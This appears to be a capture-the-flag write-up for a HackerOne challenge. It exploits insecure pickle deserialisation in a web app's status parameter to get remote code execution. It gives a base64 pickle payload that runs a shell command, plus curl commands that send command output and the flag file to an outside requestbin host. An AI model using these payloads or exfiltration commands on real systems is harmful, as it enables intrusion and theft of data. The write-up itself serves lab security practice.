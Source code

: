So we have to send a status parameter

http://127.0.0.1:1337/update-status?debug=1&status=hacked
```
Invalid status | Debug: Incorrect paddi
```
I tried to send the base64 he outputs on  the /status and it worked ! So I have to send a base64 encoded pickle object on the status parameter. 

Pickle is notorious vulnerable to RCE, so I tried a simple exploit available at https://gist.github.com/0xBADCA7/f4c700fcbb5fb8785c14.
```
$ python pick.py | base64
Y3Bvc2l4CnN5c3RlbQpwMAooUydpZCcKcDEKdHAyClJwMwouCg==
```
Sending this to `/update-status?debug=1&status=Y3Bvc2l4CnN5c3RlbQpwMAooUydpZCcKcDEKdHAyClJwMwouCg%3D%3D` showed
```
A new status has been loaded. Automatic reloading not implemented yet
```
But no output. Changing the command to `curl http://requestbin.net/r/w8rpj9w8?c=$(id|base64)` sended the output to my server in a get .
```
dWlkPTEwMDAoaGFja2VyKSBnaWQ9MTAwMChoYWNrZXIpIGdyb3Vwcz0xMDAwKGhhY2tlcikK
$ pbpaste | base64 --decode
uid=1000(hacker) gid=1000(hacker) groups=1000(hacker)
```
Trying now a `$(ls|base64)`
```
app.py
app.pyc
flag.txt
requirements.txt
static
status.pi
```
And a `$(cat flag.txt|base64)`
```
Yay! Here is your flag:

flag{cha1n1ng_bugs_f0r_fun_4nd_
```
For some reason the base64 is cutted out, but sending a sed command to get the third line `curl -d $(sed -n 3p flag.txt|base64) http://requestbin.net/r/w8rpj9w8` I get all the flag.
```
flag{cha1n1ng_bugs_f0r_fun_4nd_pr0f1t?_or_rep0rt_an_LF1}
```

## Impact

The impact of the challenge is to get me a ticket to h1-5411

## Attachments
No attachments
